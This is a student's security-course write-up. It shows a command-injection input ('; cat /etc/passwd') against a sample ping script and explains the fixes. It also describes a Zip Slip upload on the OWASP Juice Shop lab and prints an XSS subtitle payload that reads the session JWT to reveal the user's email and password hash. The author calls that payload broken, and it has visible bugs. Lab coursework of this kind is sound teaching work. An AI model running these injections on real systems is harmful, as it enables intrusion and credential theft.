







# Cyber Security Testing, week 5

Data input security

## Task 1

### Q1: Find an example command injection that prints the content of /etc/passwd file, by just providing input for the sample program.

With the usage semicolon `;` it's possible to run several commands sequentially in the Shell.
Considering that the command is built in this way:

```python
    command = f"ping -c 4 {target}"
```

it's possible to exploit the semicolon property, by just inserting it in the target `{target}` before the requested command (print content of /etc/passwd), which is `cat /etc/passwd`.

The input for ping_service.py becomes

```console
    python script.py "1.1.1.1; cat /etc/passwd"
```

### Q2: It has potentially two issues which have led injection to be possible. What are they?

- Allowing the user to inject shell commands: `shell=True` makes it possible to use `;` as a shell command separator.
- String formatting: in the script, the shell command is built through a naive f-string formatting.

### Q3: How can you fix them?

- shell=True

Substituting

```python
    command = f"ping -c 4 {target}"
    try:
        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
        print(output.decode())
```

with

```python
    command = ["ping", "-c", "4", target]
    try:
        output = subprocess.run(command, check=True, capture_output=True, text=True)
        print(output.stdout)
```

the command is passed directly to the subprocess module as a list of arguments, so the shell is not involved anymore.

Here is shown the behavior in the cases of a "naive" input and of the input that caused an injection before.



- no restrictions on input

By just adding the following code to the beginning of the ping_device function, even keeping the old code version, the script only accepts valid IP addresses.

```python
import re

def ping_device(target):
    if not re.match(r"^(\d{1,3}\.){3}\d{1,3}$|^[a-zA-Z0-9.-]+$", target):
        print("Invalid target")
        return
```

it's possible to make the script accept only valid ID addresses.

Here are the two behaviors.



### Q4: How would you implement either input validation or input sanitisation for this context? What could be better?

Recalling from the lecture:

- Input validation: Acts as a gatekeeper that either accepts or rejects input based on specified criteria.

- Input sanitisation: Instead of rejecting invalid inputs, attempts to make them usable by removing or transforming potentially dangerous elements.

Considering the easy task of the scrypt, an input validation approach may be better.

The scrypt should check that the target is an IP address (ipv4 or ipv6) or a domain.

```python
import argparse
import subprocess
import re

def is_valid_target(target):
    ipv4_pattern = r"^(\d{1,3}\.){3}\d{1,3}$"  # Accept IPv4
    ipv6_pattern = r"^\[?[a-fA-F0-9:]+\]?$"    # Accept IPv6
    domain_pattern = r"^[a-zA-Z0-9.-]+$"       # Accept domain names

    return re.match(ipv4_pattern, target) or re.match(ipv6_pattern, target) or re.match(domain_pattern, target)

def ping_device(target):
    if not is_valid_target(target):
        print("Error: Invalid target. Please enter a valid IP or domain name.")
        return

    try:
        result = subprocess.run(["ping", "-c", "4", target], check=True, capture_output=True, text=True)
        print(result.stdout)
    except subprocess.CalledProcessError as e:
        print(f"Failed to ping {target}\n{e.stderr}")

def main():
    parser = argparse.ArgumentParser(description="Ping a device safely.")
    parser.add_argument("target", type=str, help="IP address or domain name of the target device")
    args = parser.parse_args()
    ping_device(args.target)

if __name__ == "__main__":
    main()

```




### Q5: How can you be sure that injection is not possible anymore?

In addition to testing, advised by an LLM, I installed bandit and ran `bandit ping_service.py`

Apart from two warnings related to the use of subprocess (mitigated by the absence of shell=True), it reported `>> Issue: [B607:start_process_with_partial_path]`:
the ping call is done with no specification of a valid path; an attacker may substitute ping with a malicious executable in the path and later trigger into running it.

A possible solution to ensure that the real ping is executed is to specify the path or implement the following code

```python
import shutil

ping_path = shutil.which("ping")
if not ping_path:
    raise RuntimeError("Ping command not found")
subprocess.run([ping_path, "-c", "4", target], check=True, capture_output=True, text=True)
```


## Task 3

As suggested, I took inspiration from the "Overwrite the Legal Information file" challenge solution that can be found at

 https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_overwrite_the_legal_information_file 

After completing this challenge, it was all just about upuloading a different file (a `.vtt` this time) in a different location.
First of all, I had to find the location: with the help of the exercise text and the solution to "Embed an XSS payload into our promo video" challenge that can be found at

 https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_embed_an_xss_payload_into_our_promo_video

I found that the path for the subtitles file is
   frontend/dist/frontend/assets/public/videos/owasp_promo.vtt

I created a new `.vtt` file and named it `owasp_promo.vtt` - content will be discussed later.
Then I used the Zip Slip vulnerability as shown here:




and uploaded the zip through the complaint form



At this point, reloading the page where I could find the subtitles, I found this:



proving that the upload worked.

Sadly, the scrypt didn't work, and for time reasons I couldn't find a solution.
Anyway, here is the final version, obtained with the help of LLMs:

``` console

WEBVTT

NOTE this is a malicious subtitle file

<script>
(function() {
    // 1 Use JavaScript to read the cookies of the currently authenticated user
    var cookies = document.cookie;

    // 2 bet the authentication token (JW T) fron that cookie
    var match = cookies.match(/token=([^;]+)/);
    if (!match) return; // If no token, exit script
    var jwt = match[1]; // JWT token from cookie

    // 3 Parse the JWT token with plain JavaScript to get the current user email and hashed password
    var payload = JSON.parse(atob(jwt.split('.') [1]));
    var email = payload.email || "Unknown";
    var hashedPassword = payload.password || "Unknown";

    // Create new element to replace promotional content
    var newDiv = document.createElement ("div");

    // 4 Replace the promotional element with a new element with the header title "This is Mallory's web page", and show the current user information (email + hashed password)
    newDiv.innerTHTML = `
        <h1>This is Mallory's web page</h1>
        <p>Email: {email}</p>
        <p>Hashed Password: ${hashedPassword}</p>
        
    `;

    var promoElement = document.querySelector("#promo");
    if (promoElement) {
        promoElement.parentNode.replaceChild(newDiv, promoElement);
    }
})();
</script>

```

Of course, the reason why it doesn't work is that I didn't investigate the `document.cookie`:
I don't know if email and passwords fields actually exist.

Also, the VTT should look like

```console
WEBVTT

00:00:01.000 --> 00:00:02.000
<script> ... </script>
```

in order to be executed.

I won't try these things for time reasons :(